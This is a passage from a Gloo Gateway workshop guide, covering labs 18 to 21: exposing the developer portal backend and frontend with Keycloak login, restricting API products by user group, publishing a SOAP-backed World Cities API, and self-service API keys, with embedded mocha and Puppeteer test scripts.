## Lab 18 - Expose the dev portal backend <a name="lab-18---expose-the-dev-portal-backend-"></a>

Now that your API has been exposed securely and our plans defined, lets advertise this API through a developer portal.

Two components are serving this purpose:
- the Gloo Gateway portal backend which provides a portal API (that has information about the published API Products)
- the Gloo Gateway portal frontend which consumes this portal API

In this lab, we're going to set up the Gloo Gateway Portal backend.

First, you need to create an `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: portal
  namespace: gloo-system
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://portal.example.com"
          callbackPath: /v1/login
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /v1/logout
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: id_token
EOF
```

Then, you need to create a `RouteOption` which references this `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-portal-api
  namespace: gloo-system
spec:
  options:
    extauth:
      configRef:
        name: portal
        namespace: gloo-system
EOF
```

Finally, you can expose the portal API through Gloo Gateway using a `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: portal-server
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "portal.example.com"
    - gateway-portal-web-server.gloo-system
  rules:
    - backendRefs:
        - name: gateway-portal-web-server
          port: 8080
      matches:
      - path:
          type: PathPrefix
          value: /v1
        headers:
        - name: Authorization
          type: RegularExpression
          value: Bearer\s.*
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption-apis
    - backendRefs:
        - name: gateway-portal-web-server
          port: 8080
      matches:
      - path:
          type: PathPrefix
          value: /v1
        headers:
          - name: Cookie
            type: RegularExpression
            value: ".*?keycloak-session=.*"
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption-portal-api
    - backendRefs:
        - name: gateway-portal-web-server
          port: 8080
      matches:
      - path:
          type: PathPrefix
          value: /v1
EOF
```

Note that we have matchers for authenticated access and unauthenticated access (public APIs).
Make sure the domain is in our `/etc/hosts` file:

```bash
./scripts/register-domain.sh portal.example.com ${PROXY_IP}
```

You should now be able to access the portal API through the gateway:

```bash,noexecute
curl -k "https://portal.example.com/v1/api-products"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal API without authentication", () => {
  it('Checking text \'apiProductMetadata\' in the response', () => helpersHttp.checkBody({ host: `https://portal.example.com`, path: '/v1/api-products', body: 'apiProductMetadata', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-backend/tests/access-portal-api-no-auth.test.js.liquid from lab number 18"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 18"; exit 1; }
-->

Here is the expected output:

```json,nocopy
[{"apiProductMetadata":{"imageURL":"https://raw.githubusercontent.com/solo-io/workshops/master/images/bookinfo.jpg"},"description":"# Bookinfo REST API v1 Documentation\nThis is some extra information about the API\n","id":"bookinfo","name":"BookInfo REST API","versionsCount":2}]
```


## Lab 19 - Deploy and expose the dev portal frontend <a name="lab-19---deploy-and-expose-the-dev-portal-frontend-"></a>

The developer frontend is provided as a fully functional template to allow you to customize it based on your own requirements.

Let's deploy it:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: portal-frontend
  namespace: gloo-system
---
apiVersion: v1
kind: Service
metadata:
  name: portal-frontend
  namespace: gloo-system
  labels:
    app: portal-frontend
    service: portal-frontend
spec:
  ports:
  - name: http
    port: 4000
    targetPort: 4000
  selector:
    app: portal-frontend
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: portal-frontend
  namespace: gloo-system
spec:
  replicas: 1
  selector:
    matchLabels:
      app: portal-frontend
  template:
    metadata:
      labels:
        app: portal-frontend
    spec:
      serviceAccountName: portal-frontend
      containers:
      - image: gcr.io/solo-public/docs/portal-frontend:v0.1.1
        args: ["--host", "0.0.0.0"]
        imagePullPolicy: Always
        name: portal-frontend
        ports:
        - containerPort: 4000
        readinessProbe:
          httpGet:
            path: /login
            port: 4000
        env:
        - name: VITE_PORTAL_SERVER_URL
          value: "https://portal.example.com/v1"
        - name: VITE_APPLIED_OIDC_AUTH_CODE_CONFIG
          value: "true"
        - name: VITE_OIDC_AUTH_CODE_CONFIG_CALLBACK_PATH
          value: "/v1/login"
        - name: VITE_OIDC_AUTH_CODE_CONFIG_LOGOUT_PATH
          value: "/v1/logout"
EOF
```

Wait for the deployment to be ready:
```bash
kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy portal-frontend
```

We can now expose the portal frontend through Gloo Gateway using a `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: portal-frontend
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "portal.example.com"
    - gateway-portal-web-server.gloo-system
  rules:
    - backendRefs:
        - name: portal-frontend
          port: 4000
      matches:
      - path:
          type: PathPrefix
          value: /v1/login
      - path:
          type: PathPrefix
          value: /v1/logout
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption-portal-api
    - backendRefs:
        - name: portal-frontend
          port: 4000
      matches:
      - path:
          type: PathPrefix
          value: /
EOF
```

<!--bash
ATTEMPTS=1
timeout 120 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://portal.example.com/v1/login)" != "302" ]]; do sleep 5; done'
timeout 120 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://portal.example.com)" != "200" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"

# The user must be created (in the database) in 1.18
curl -k -H "Cookie: ${USER1_COOKIE}" -X PUT "https://portal.example.com/v1/me"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal frontend with authentication", () => {
  const cookieString = process.env.USER1_COOKIE;

  it('Checking text \'apiProductMetadata\' in the response', () => helpersHttp.checkBody({ host: `https://portal.example.com`, path: '/v1/api-products', headers: [{ key: 'Cookie', value: cookieString }], body: 'apiProductMetadata', match: true }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/access-portal-api-auth.test.js.liquid from lab number 19"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 19"; exit 1; }
-->

You should now be able to access the portal frontend through the gateway.

Get the URL to access the portal frontend using the following command:

```bash,noexecute
echo "https://portal.example.com"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function() {
  const cookieString = process.env.USER1_COOKIE;

  it("The portal frontend isn't accessible without authenticating", () => {
    return helpersHttp.checkURL({ host: `https://portal.example.com`, path: '/v1/login', retCode: 302 });
  });

  it("The portal frontend is accessible after authenticating", () => {
    return helpersHttp.checkURL({ host: `https://portal.example.com`, path: '/v1/login', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 });
  });
});
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/access-portal-frontend-authenticated.test.js.liquid from lab number 19"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 19"; exit 1; }
-->

If you click on the `LOGIN` button on the top right corner, you'll be redirected to keycloak and should be able to auth with the user `user1` and the password `password`.

Now, if you click on the `VIEW APIS` button, you should see the `Bookinfo REST API`.

<!--bash
cat <<'EOF' > ./test.js
const DeveloperPortalHomePage = require('./tests/pages/dev-portal/home-page');
const DeveloperPortalAPIPage = require('./tests/pages/dev-portal/api-page');
const KeycloakSignInPage = require('./tests/pages/keycloak-sign-in-page');
const puppeteer = require('puppeteer-extra');
puppeteer.use(require('puppeteer-extra-plugin-user-preferences')({
    userPrefs: {
        safebrowsing: {
            enabled: false,
            enhanced: false
        }
    }
}));
const { enhanceBrowser } = require('./tests/utils/enhance-browser');
var chai = require('chai');
var expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Dev portal frontend UI", function () {
  // UI tests often require a longer timeout.
  // So here we force it to a minimum of 30 seconds.
  const currentTimeout = this.timeout();
  this.timeout(Math.max(currentTimeout, 30000));

  let browser;
  let devPortalHomePage;
  let devPortalAPIPage;
  let keycloakSignInPage;

  // Use Mocha's 'before' hook to set up Puppeteer
  before(async function () {
    browser = await puppeteer.launch({
      headless: "new",
      slowMo: 10,
      ignoreHTTPSErrors: true,
      args: ['--no-sandbox', '--disable-setuid-sandbox'],
    });
    browser = enhanceBrowser(browser, this.currentTest.title);
    let page = await browser.newPage();
    await page.setViewport({ width: 1500, height: 1000 });
    devPortalHomePage = new DeveloperPortalHomePage(page);
    devPortalAPIPage = new DeveloperPortalAPIPage(page);
    keycloakSignInPage = new KeycloakSignInPage(page);
  });

  it("user1 should authenticate with keycloak", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user1");
  });

  it("user1 should see API Products", async () => {
    await devPortalAPIPage.navigateTo(`https://portal.example.com/apis`);
    const apiProducts = await devPortalAPIPage.getAPIProducts();
    expect(apiProducts.some(item => item.includes("BookInfo"))).to.be.true;
  });

  // Use Mocha's 'after' hook to close Puppeteer
  after(async function () {
    await browser.close();
  });
});

EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/dev-portal-ui-tests.test.js.liquid from lab number 19"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=10 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 19"; exit 1; }
-->


We can also configure some RBAC to restrict who can see which ApiProduct.

Let's apply a `PortalGroup` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: PortalGroup
metadata:
  name: rbac
  namespace: gloo-system
spec:
  membership:
    - claimGroup:
        - key: subscription
          value: enterprise
  apiProducts:
    - name: "*"
      namespace: bookinfo
EOF
```

Users are authenticated with OIDC and the JWT tokens generated contain a claim called `subscription`.

`user1` has a subscription `enterprise`, so you should still be able to see the ApiProduct in the developer portal.

But if you logout and login with `user2` with the password `password`, then you shouldn't see it anymore.

<!--bash
cat <<'EOF' > ./test.js
const DeveloperPortalHomePage = require('./tests/pages/dev-portal/home-page');
const DeveloperPortalAPIPage = require('./tests/pages/dev-portal/api-page');
const KeycloakSignInPage = require('./tests/pages/keycloak-sign-in-page');
const puppeteer = require('puppeteer-extra');
puppeteer.use(require('puppeteer-extra-plugin-user-preferences')({
    userPrefs: {
        safebrowsing: {
            enabled: false,
            enhanced: false
        }
    }
}));
const { enhanceBrowser } = require('./tests/utils/enhance-browser');
var chai = require('chai');
var expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Dev portal frontend UI", function () {
  // UI tests often require a longer timeout.
  // So here we force it to a minimum of 30 seconds.
  const currentTimeout = this.timeout();
  this.timeout(Math.max(currentTimeout, 30000));

  let browser;
  let devPortalHomePage;
  let devPortalAPIPage;
  let keycloakSignInPage;

  // Use Mocha's 'before' hook to set up Puppeteer
  before(async function () {
    browser = await puppeteer.launch({
      headless: "new",
      slowMo: 10,
      ignoreHTTPSErrors: true,
      args: ['--no-sandbox', '--disable-setuid-sandbox'],
    });
    browser = enhanceBrowser(browser, this.currentTest.title);
    let page = await browser.newPage();
    await page.setViewport({ width: 1500, height: 1000 });
    devPortalHomePage = new DeveloperPortalHomePage(page);
    devPortalAPIPage = new DeveloperPortalAPIPage(page);
    keycloakSignInPage = new KeycloakSignInPage(page);
  });

  it("user1 should authenticate with keycloak", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user1");
  });

  it("user1 should see API Products", async () => {
    await devPortalAPIPage.navigateTo(`https://portal.example.com/apis`);
    const apiProducts = await devPortalAPIPage.getAPIProducts();
    expect(apiProducts.some(item => item.includes("BookInfo"))).to.be.true;
  });

   it("logout and login as user2", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com/v1/logout`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user2", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user2");
  });

  it("user2 shouldn't see API Products", async () => {
    await devPortalAPIPage.navigateTo(`https://portal.example.com/apis`);
    const apiProducts = await devPortalAPIPage.getAPIProducts();
    expect(apiProducts).to.have.lengthOf(0);
  });

  // Use Mocha's 'after' hook to close Puppeteer
  after(async function () {
    await browser.close();
  });
});

EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/dev-portal-ui-tests-rbac.test.js.liquid from lab number 19"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=10 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 19"; exit 1; }
-->

Let's delete the `PortalGroup` to allow both users to access the `ApiProduct`:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete portalgroups.portal.gloo.solo.io rbac
```


## Lab 20 - Expose a SOAP service in the portal with OpenAPI <a name="lab-20---expose-a-soap-service-in-the-portal-with-openapi-"></a>

Earlier, we created route configuration for a SOAP API to expose it to the outside world as a REST API.
Now that we're cataloguing our APIs in the developer portal, we need to make sure that "World Cities" API is also included.
To do that, we need to use an OpenAPI Description for this API.

An OpenAPI document has already been created for you at `data/steps/dev-portal-api-soap/openapi.yaml`.
Take a look at it:

```bash,noexecute
cat data/steps/dev-portal-api-soap/openapi.yaml
```

Let's manually create an `APIDoc` resource that embeds this OpenAPI description of the "World Cities" REST API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiDoc
metadata:
  name: world-cities
  namespace: world-cities
spec:
  openapi:
    inlineString: |-
$(cat data/steps/dev-portal-api-soap/openapi.yaml | sed 's/^/      /')
  servedBy:
  - targetRef:
      kind: Service
      name: world-cities-soap-service
      namespace: world-cities
    port: 8080
EOF
```

Create an `APIProduct` that consists of this API, linked to the `HTTPRoute` that exposes it:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiProduct
metadata:
  name: world-cities
  namespace: world-cities
spec:
  id: world-cities
  displayName: World Cities API
  customMetadata:
    imageURL: https://upload.wikimedia.org/wikipedia/commons/thumb/6/67/London_Skyline_%28125508655%29.jpeg/1280px-London_Skyline_%28125508655%29.jpeg
  versions:
  - apiVersion: v1
    targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: world-cities
      namespace: world-cities
    openapiMetadata:
      title: World Cities API
      description: |
        # World Cities REST API Documentation
        This API serves data from a public database [here](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv).
    customMetadata:
      lifecyclePhase: General Availability
EOF
```

Now that we've defined the API and how it is hosted, we need to add the `world-cities` namespace to the `Portal` configuration so that API products defined in this namespace will be discovered:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: Portal
metadata:
  name: portal
  namespace: gloo-system
spec:
  # APIs will be accessible to unauthenticated users
  visibility:
    public: true
  # List of API products to be included in the portal
  apiProducts:
    - namespace: bookinfo
    - namespace: world-cities
EOF
```

Discovery of the APIs in this namespace depends on this namespace providing a `ReferenceGrant` allowing the `gloo-system` namespace to read its resources.
Let's create that `ReferenceGrant`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-portal-to-access-apiproduct
  namespace: world-cities
spec:
  from:
  - group: portal.gloo.solo.io
    kind: Portal
    namespace: gloo-system
  to:
  - group: portal.gloo.solo.io
    kind: ApiProduct
EOF
```

Finally, add a CORS policy to the existing `RouteOptions` where the transformations are defined so that the portal can invoke this API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: world-cities
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: world-cities
  options:
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            xsltTransformation:
              xslt: |
                <?xml version="1.0" encoding="UTF-8"?>
                <xsl:stylesheet
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:math="http://www.w3.org/2005/xpath-functions/math"
                xmlns:xs="http://www.w3.org/2001/XMLSchema"
                exclude-result-prefixes="xs math" version="3.0">
                  <xsl:output indent="yes" omit-xml-declaration="yes" />
                  <xsl:strip-space elements="*"/>
                  <xsl:template match="/" xmlns="http://schemas.xmlsoap.org/soap/envelope/">
                    <Envelope >
                      <Header/>
                      <Body>
                        <Query>
                          <xsl:apply-templates select="json-to-xml(.)/*"/>
                        </Query>
                      </Body>
                    </Envelope>
                  </xsl:template>
                  <xsl:template match="map" xpath-default-namespace="http://www.w3.org/2005/xpath-functions" xmlns:web="http://www.qas.com/OnDemand-2011-03">
                    <CityQuery><xsl:value-of select="string[@key='cityQuery']" /></CityQuery>
                  </xsl:template>
                </xsl:stylesheet>
              nonXmlTransform: true
              setContentType: text/xml
          responseTransformation:
            xsltTransformation:
              xslt: |
                <?xml version="1.0" encoding="UTF-8"?>
                <xsl:stylesheet
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:xs="http://www.w3.org/2001/XMLSchema"
                xpath-default-namespace="http://schemas.xmlsoap.org/soap/envelope/"
                version="3.0">
                  <xsl:output method="text" omit-xml-declaration="yes" />
                  <xsl:variable name="myMap">
                    <map xmlns="http://www.w3.org/2005/xpath-functions">
                      <array key="matches" >
                        <xsl:for-each select="/Envelope/Body/Content/Match">
                          <map>
                            <string key="city"><xsl:value-of select="City"/></string>
                            <string key="country"><xsl:value-of select="Country" /></string>
                            <string key="subCountry"><xsl:value-of select="SubCountry" /></string>
                            <string key="geoNameId"><xsl:value-of select="GeoNameId" /></string>
                          </map>
                        </xsl:for-each>
                      </array>
                    </map>
                  </xsl:variable>
                  <xsl:template match="/">
                    <xsl:apply-templates select="xml-to-json(\$myMap, map{'indent': true()})" />
                  </xsl:template>
                </xsl:stylesheet>
              setContentType: application/json
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
EOF
```

That's it! We didn't add any authentication or authorisation to this API so it is publicly accessible.
Take a look in the portal frontend and see that the API has been added, and that you can browse its documentation and try out the search operation.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("World Cities API", () => {
  it('is included in the portal', () => helpers.checkBody({
    host: `https://portal.example.com`,
    path: '/v1/api-products',
    body: 'World Cities API',
    match: true,
  }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/world-cities/dev-portal-api-soap/tests/world-cities-exposed-portal.test.js.liquid from lab number 20"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 20"; exit 1; }
-->


## Lab 21 - Demonstrate the self service capabilities <a name="lab-21---demonstrate-the-self-service-capabilities-"></a>


We're going to demonstrate how to allow users to create their own teams and applications, subscribe to API Products and get credentials.

First, we need to configure Gloo Gateway to authenticate the requests with api keys.


You need to update the existing `AuthConfig` object to use the portalAuth authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: apis
  namespace: gloo-system
spec:
  configs:
    - name: portal
      portalAuth:
        url: http://gateway-portal-web-server.gloo-system.svc.cluster.local:8080
        cacheDuration: 60s
        apiKeyHeader: "api-key"
        redisOptions:
          host: redis:6379
EOF
```


We already have a `RouteOption` referencing this `AuthConfig`.

Now let's explore the self-service workflow.

<details open>
  <summary>Using the portal frontend UI</summary>

Log into the portal with the user `user1` and the password `password`.

Go to `Teams` and create a new team called team1:


Click on `DETAILS` and add the user `user2@solo.io` in your team.


Create a new application called app1:


Click on `DETAILS` and subscribe to the `Bookinfo REST API` API Product.


You can see the subscription is currently pending approval:


Logout and login with the user `admin1` and the password `password`.

This user has admin privileges because he's part of the `admin` group in the identity provider (keycloak).

Go to `Subscriptions`:


Approve the subscription and set a rate limit of 5 requests per `MINUTE`.


Logout and login with the user `user2` and the password `password`.

Go to `Apps` and click on `DETAILS`. Because you've been added by `user1`, you can see the application.

All the team members have the same privileges. If a team member creates an API key and this key needs to be rotated while he's on vacation, another user can perform the operation.

Create an API key called `key1`:



It won't be displayed again. If you lose it, then you can create a new one and remove the old one later. It also allows you to rotate API keys.

Set the `API_KEY` environment variable using its value.

```,nocopy
export API_KEY=<the value displayed in the UI>
```
</details>


<!--bash
cat <<'EOF' > ./test.js
const DeveloperPortalHomePage = require('./tests/pages/dev-portal/home-page');
const DeveloperPortalAPIPage = require('./tests/pages/dev-portal/api-page');
const DeveloperPortalTeamsPage = require('./tests/pages/dev-portal/teams-page');
const DeveloperPortalAppsPage = require('./tests/pages/dev-portal/apps-page');
const DeveloperPortalAdminSubscriptionsPage = require('./tests/pages/dev-portal/admin-subscriptions-page');
const DeveloperPortalAdminAppsPage = require('./tests/pages/dev-portal/admin-apps-page');
const KeycloakSignInPage = require('./tests/pages/keycloak-sign-in-page');
const puppeteer = require('puppeteer-extra');
puppeteer.use(require('puppeteer-extra-plugin-user-preferences')({
    userPrefs: {
        safebrowsing: {
            enabled: false,
            enhanced: false
        }
    }
}));
const { enhanceBrowser } = require('./tests/utils/enhance-browser');
var chai = require('chai');
var expect = chai.expect;
const fs = require('fs');

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Dev portal frontend UI", function () {
  // UI tests often require a longer timeout.
  // So here we force it to a minimum of 30 seconds.
  const currentTimeout = this.timeout();
  this.timeout(Math.max(currentTimeout, 30000));

  let browser;
  let devPortalHomePage;
  let devPortalAPIPage;
  let devPortalTeamsPage;
  let devPortalAppsPage;
  let devPortalAdminSubscriptionsPage;
  let devPortalAdminAppsPage;
  let keycloakSignInPage;

  // Use Mocha's 'before' hook to set up Puppeteer
  before(async function () {
    browser = await puppeteer.launch({
      headless: "new",
      slowMo: 10,
      ignoreHTTPSErrors: true,
      args: ['--no-sandbox', '--disable-setuid-sandbox'],
    });
    const context = browser.defaultBrowserContext();
    await context.overridePermissions(`https://portal.example.com`, [
      "clipboard-read",
      "clipboard-write",
      "clipboard-sanitized-write",
    ]);
    browser = enhanceBrowser(browser, this.currentTest.title);
    let page = await browser.newPage();
    await page.setViewport({ width: 1500, height: 1000 });
    devPortalHomePage = new DeveloperPortalHomePage(page);
    devPortalAPIPage = new DeveloperPortalAPIPage(page);
    devPortalTeamsPage = new DeveloperPortalTeamsPage(page);
    devPortalAppsPage = new DeveloperPortalAppsPage(page);
    devPortalAdminSubscriptionsPage = new DeveloperPortalAdminSubscriptionsPage(page);
    devPortalAdminAppsPage = new DeveloperPortalAdminAppsPage(page);
    keycloakSignInPage = new KeycloakSignInPage(page);
  });

  it("user1 should authenticate with keycloak", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user1");
  });

  it("user1 should see API Products", async () => {
    await devPortalAPIPage.navigateTo(`https://portal.example.com/apis`);
    const apiProducts = await devPortalAPIPage.getAPIProducts();
    expect(apiProducts.some(item => item.includes("BookInfo"))).to.be.true;
  });

  it("user1 should be able to create a Team and add user2@solo.io as a member", async () => {
    await devPortalTeamsPage.navigateTo(`https://portal.example.com/teams`);
    await devPortalTeamsPage.createTeamAndAddUser('team1', 'team1', 'user2@solo.io');
  });

  it("user1 should be able to create an Application", async () => {
    await devPortalAppsPage.navigateTo(`https://portal.example.com/apps`);
    await devPortalAppsPage.createNewApp('team1', 'app1', 'app1');
  });

  it("user1 should be able to subscribe to an API Product", async () => {
    await devPortalAppsPage.navigateTo(`https://portal.example.com/apps`);
    await devPortalAppsPage.navigateToAppDetails();
    await devPortalAppsPage.createSubscription('BookInfo REST API');
  });

  it("logout and login as admin1", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com/v1/logout`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("admin1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("admin1");
  });

  it("admin1 should be able to approve the subscription and add metadata", async () => {
    await devPortalAdminSubscriptionsPage.navigateTo(`https://portal.example.com/admin/subscriptions`);
    await devPortalAdminSubscriptionsPage.approveSubscription();
    await devPortalAdminSubscriptionsPage.addCustomMetadata('key', 'value');
    await devPortalAdminSubscriptionsPage.setRateLimit(5, 'MINUTE');
  });

  it("admin1 should be able to add application metadata", async () => {
    await devPortalAdminAppsPage.navigateTo(`https://portal.example.com/admin/apps`);
    await devPortalAdminSubscriptionsPage.addCustomMetadata('app', 'bookinfo');
  });

  it("logout and login as user1", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com/v1/logout`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user1");
  });

  it('user1 should be able to create an API key', async () => {
    await devPortalAppsPage.navigateTo(`https://portal.example.com/apps`);
    await devPortalAppsPage.navigateToAppDetails();
    
    // Create the API key and get its value
    const apiKey = await devPortalAppsPage.createApiKey('key1');
    
    // write API key to a file
    fs.writeFileSync('apiKey', apiKey);
  });
  
  // Use Mocha's 'after' hook to close Puppeteer
  after(async function () {
    await browser.close();
  });
});

EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/dev-portal-ui-tests.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=10 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->
<!--bash
export API_KEY=$(cat apiKey)
-->


Try to access the API without authentication:

```bash,noexecute
curl -k "https://bookinfo.example.com/api/bookinfo/v1" -I
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API unauthorized", () => {
  it('Response code is 403', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', retCode: 403 }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/access-api-unauthorized.test.js.liquid from lab number 21"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 21"; exit 1; }
-->

The access is refused (403 response):

```,nocopy
HTTP/2 403
content-length: 8
content-type: text/plain
date: Tue, 17 Sep 2024 14:36:54 GMT
server: envoy
```

Now, let's try with the api key

```bash,noexecute
curl -k -H "api-key: $API_KEY" "https://bookinfo.example.com/api/bookinfo/v1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API authorized", () => {
  it('Response code is 200', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'api-key', value: process.env.API_KEY}], retCode: 200 }));
})
EOF
